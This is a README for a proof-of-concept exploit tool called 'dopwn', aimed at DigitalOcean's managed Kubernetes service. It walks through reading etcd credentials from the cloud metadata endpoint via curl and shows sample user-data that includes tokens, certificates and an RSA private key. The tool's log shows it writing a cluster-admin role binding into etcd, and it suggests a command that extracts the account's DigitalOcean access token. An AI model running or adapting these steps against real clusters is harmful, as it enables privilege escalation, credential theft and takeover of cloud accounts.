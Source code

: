 # DigitalOcean Pwner

This is a proof-of-concept tool to exploit a combination of weaknesses in the new Kubernetes managed service from DigitalOcean.

## Caveats

This tool is going to write arbitrary objects into your Kubernetes cluster's `etcd` backend. It _should_ be ok but there's every chance something could go wrong so be prepared for that. If you break something it's absolutely not my fault, this code is provided as-is and without warranty.

If something breaks, raise an issue and I'll see if I can fix the code to prevent future similar events.

## Installation

Download the binary release from the Releases tab above.

## Usage

You need the output of the DigitalOcean user-data in a file. There's a number of ways you could get this, if you have access to a pod you can use cURL:

```bash
~ $ curl -qs http://169.254.169.254/metadata/v1/user-data
#cloud-config
k8saas_role: kubelet
k8saas_master_domain_name: "aac71799-f33a-444d-89a8-b20a3441635e.k8s.ondigitalocean.com"
k8saas_bootstrap_token: "4b7ae52cd675200f0955f69163d4c13c72a3b4e6ed6fcfb84bcf34add6dfc865"
k8saas_proxy_token: "6cb9b9da7256fc4f4759847d73e1dec2a47807c8ed6287c0986038d415c981fb"
k8saas_ca_cert: "-----BEGIN CERTIFICATE-----\nMIIDJzCCAg+gAwIBAgICBnUwDQYJKoZIhvcNAQELBQAwMzEVMBMGA1UEChMMRGln\naXRhbE9jZWFuMRowGAYDVQQDExFrOHNhYXMgQ2x1c3RlciBDQTAeFw0xODEyMjAx\nMDA2MjVaFw0zODEyMjAxMDA2MjVaMDMxFTATBgNVBAoTDERpZ2l0YWxPY2VhbjEa\nMBgGA1UEAxMRazhzYWFzIENsdXN0ZXIgQ0EwggEiMA0GCSqGSIb3DQEBAQUA[..]JO235eM7L\ne9ywg0QelxRTUjChNqC2QkE9H8YbqO5UmAma+ZxG0G71LOFU6nzardgNrOAd0VX9\nssOBlUJcyFBni9dE4wwNGMgg4ZJ8hZnqNGq9aKO5YxYexpRGvjs02XEqLQT6MhpC\nNOAS44LZ7QwHe37SoeIhq5mnFnaXYHobAjjKhprgTZS/oH80y9O9wOWqaVMiAGAD\ngm/xdELUeqItctGi9bsELWGzEAEj++90ysSTBSn3aEUnk1HCooEq5agvog==\n-----END CERTIFICATE-----\n"
k8saas_etcd_ca: "-----BEGIN CERTIFICATE-----\nMIIDJzCCAg+gAwIBAgICBnUwDQYJKoZIhvcNAQELBQAwMzEVMBMGA1UEChMMRGln[..]lsczwKsQs1BAMDfYZGQ/KwO8RNxZ4Ll0H83/cLsEq5VE\nLOqJzev29a/Gd2cGShpMjWVVT6GruFZ4hgdGncA2WIEvAWiSKc+0CcrM2SYnGgzs\nOEpx1uudl7YvXNYgn4IxvHab2UVWlm60dI3tKL5CtY5fZS47iWL4kuoP3HlQtm8n\n/9ks1nkcQlXJo41ENCISrt04wZdMxyRtUaDjewJvebkvCjtwr0m0T9kHJw==\n-----END CERTIFICATE-----\n"
k8saas_etcd_key: "-----BEGIN RSA PRIVATE KEY-----\nMIIEpAIBAAKCAQEAuWXwbSO8Y9QtPxndGZUD5QHgLX5SnTz/9dKRcKhdHPvPDMkc\nK5kXKtWFmrK/4KunjLj9fX8s36sB0qe4dJrjPlVEZMOtfZUwlc+jLYSjxyYKtdmS\nA7wLxxV+beflo8x37A/0jyFl57efzmmNZ7T01TG4drt4eysr[..]n0YAe5xWaWOZ7e1xE4DqUbULeybNeBdLm/SJ+22dlmCgsphKeolzjWFeLKfg67Diw\n914gAC0CgYAP88QdhsOpW+Nzz5ddwjCK/o8cL7/nnORhf9TI7sPlYwNca3AEgR0w\n7jqbSvHJt8AIY4NSQaokB1yvealnaW1uTak6Ak0ote6TsO1xH+dRHH1eqVm55GtX\nKKkpKZcj6lFBLQ3ab5GxJA00D4yNinkDnxMC6tivdW2ZJgE1HAs/3A==\n-----END RSA PRIVATE KEY-----\n"
k8saas_etcd_cert: "-----BEGIN CERTIFICATE-----\nMIIEazCCA1OgAwIBAgICBnUwDQYJKoZIhvcNAQELBQAwMzEVMBMGA1UEChMMRGln\naXRhbE9jZWFuMRowGAYDVQQDExFrOHNhYXMgQ2x1c3RlciBDQTAeFw0xODEyMjAx\nMDA4MDBaFw0zODEyMjAxMDA4MDBaMFkxCzAJBgNVBAYTAlVTMQswCQYDVQQIEwJO\nWTERMA8GA1UEBxMITmV3IFlvcmsxFTATB[..]JNzdzeIWqCR+H8dlu3mZHhJ6+PZr/mxQTaTbT7bJMHpO+iZqxFRBsNZ1hN\nczftZQXKqHgLsy+q4lh2H0YcCI1GJy5XrO5Yb0UWYGyAAQUrc4wc5HrN7DmPtDpe\n9axdb4C1fZtkj1MvjItaCWBDU5OzQGEsYLugbw3U2Q==\n-----END CERTIFICATE-----\n"
k8saas_overlay_subnet: "10.244.0.0/16"
k8saas_dns_service_ip: "10.245.0.10"
```

Save this output to a file on your local machine, either by copy/paste or output from kubectl cp/exec, etc.

In this example, I'll put it in a file called `user-data.txt`. Now run `dopwn exploit` with the `-f` parameter specifying the location of the `user-data.txt` file.

```bash
dopwn exploit -f user-data.txt
2018-12-20T10:29:56Z [ℹ]  read metadata from file: user-data.txt
2018-12-20T10:29:56Z [ℹ]  parsing metadata to get etcd creds
2018-12-20T10:29:56Z [ℹ]  writing etcd ca to file: etcd-ca.crt
2018-12-20T10:29:56Z [ℹ]  writing etcd cert to file: etcd.crt
2018-12-20T10:29:56Z [ℹ]  writing etcd key to file: etcd.key
2018-12-20T10:29:56Z [ℹ]  fetching kube-system default service account token from etcd at aac71799-f33a-444d-89a8-b20a3441635e.k8s.ondigitalocean.com:2379
2018-12-20T10:29:58Z [ℹ]  decoding serviceAccount
2018-12-20T10:29:58Z [ℹ]  fetching serviceAccountToken secret
2018-12-20T10:29:58Z [ℹ]  decoding secret
2018-12-20T10:29:58Z [ℹ]  writing API server CA cert file to ca.crt
2018-12-20T10:29:58Z [ℹ]  generating kubeconfig
2018-12-20T10:29:58Z [ℹ]  wrote kubeconfig
2018-12-20T10:29:58Z [ℹ]  generating clusterrolebinding
2018-12-20T10:29:58Z [ℹ]  encoding clusterrolebinding
2018-12-20T10:29:58Z [ℹ]  inserting clusterrolebinding into etcd......wish me luck......
2018-12-20T10:29:58Z [ℹ]  o_O
2018-12-20T10:29:58Z [ℹ]  You are now cluster-admin using the token in kubeconfig
2018-12-20T10:29:58Z [ℹ]  For an added bonus, grab the digitalocean secret and take over the DO account too:
2018-12-20T10:29:58Z [ℹ]  kubectl --kubeconfig=kubeconfig -n kube-system get secret digitalocean -o jsonpath='{.data.access-token}' | base64 --decode
```

That's it, you're done. You should now have a file called `kubeconfig` in the same directory which you can use to access the cluster.

```bash
kubectl --kubeconfig=kubeconfig auth can-i get secrets
yes
```


### Contributing

This is frankly pretty fugly code. I'm not particularly proud of it. I don't think it's very idiomatic, it's got a big monolithic func call and at the moment there's an unnecessary subcommand. But it works. And I'm hoping the weaknesses won't be around long enough to justify the refactoring. If you want to tidy it up I would love the input though. Just submit a PR.